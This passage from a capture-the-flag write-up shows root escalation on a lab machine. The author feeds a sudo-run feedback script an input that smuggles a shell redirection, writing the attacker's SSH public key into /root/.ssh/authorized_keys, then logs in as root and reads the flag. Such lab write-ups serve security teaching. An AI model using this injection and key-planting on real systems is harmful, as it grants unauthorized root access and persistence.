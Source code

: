 then i gave it permissions:
```
chmod 600 writeup
```

Copied the public key so i can use it on the file
```
cat writeup.pub  
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe+Okf08WHl/6gq+4LEWcNyrMea9D5ucK/zimm066oS morth@kali
```

Then on the target machine i execute the command and put the key inside authorized_keys file(for the love of god dont forget to execute the file feedback.sh as `sudo`)

```
deku@ip-10-10-11-182:~$ sudo /opt/NewComponent/feedback.sh
[sudo] password for deku: 
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe+Okf08WHl/6gq+4LEWcNyrMea9D5ucK/zimm066oS morth@kali > /root/.ssh/authorized_keys
It is This:
Feedback successfully saved.
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe+Okf08WHl/6gq+4LEWcNyrMea9D5ucK/zimm066oS morth@kali > /root/.ssh/authorized_keys
```

Once thats done and there are no errors, we can then get root trough ssh:

### Root Access

```
ssh -i writeup root@10.10.11.182
```

```
root@ip-10-10-11-182:~# ls
root.txt  snap
root@ip-10-10-11-182:~# cat root.txt
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

...{..........}
```

Root shell obtained.

## Flags

- `user.txt` – found in `/home/deku`
- `root.txt` – accessible after root SSH access

---
